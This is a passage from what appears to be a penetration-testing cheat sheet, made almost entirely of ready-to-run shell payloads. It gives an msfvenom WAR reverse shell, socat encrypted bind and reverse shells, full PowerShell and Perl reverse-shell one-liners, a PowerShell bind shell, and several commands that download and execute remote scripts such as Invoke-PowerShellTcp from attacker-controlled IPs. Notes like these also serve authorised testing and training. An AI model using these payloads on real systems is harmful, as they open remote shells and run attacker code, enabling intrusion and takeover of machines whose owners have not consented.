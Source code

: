         msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Attack box IP] LPORT=4444 -f war > /root/Desktop/shell.war
        intercept w/ metasploit exploit/multi/handler  

#### Socat Encrypted Shells:
    Bind Shell:
        Generate bind.pem and transfer to victim machine:
            openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
            cat bind.key bind.crt > bind.pem
        Victim: socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash
            Windows:  LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes
        Attacker: socat - OPENSSL:192.168.168.130:4443,verify=0
    Reverse Shell:
        Generate bind.pem on attacker machine.
        Attacker: socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
        Victim: socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash
            Windows: socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes

### WINDOWS SPECIFIC:
    One-liners:
        Powershell:
            powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
            powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            Bind Shell:  powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
        Perl:  perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
    Powershell Scripts:
        cmd /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.186/mini-reverse.ps1') | powershell -noprofile -
        cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')
        c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://192.168.119.186:80/Invoke-PowerShellTcp.ps1')
            Put this at end of the file first:   Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.186 -Port 4445
            Or try: powershell -c ...
        powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
        Mini-reverse.ps1:  https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5
        Nishang:  wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
    Other Options:  file transfer nc.exe, then use it
    Powercat Methods:
        To enable scripts:   Set-ExecutionPolicy Unrestricted  (run as admin)
        File transfer/download:   powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
        Powercat=PS version of netcat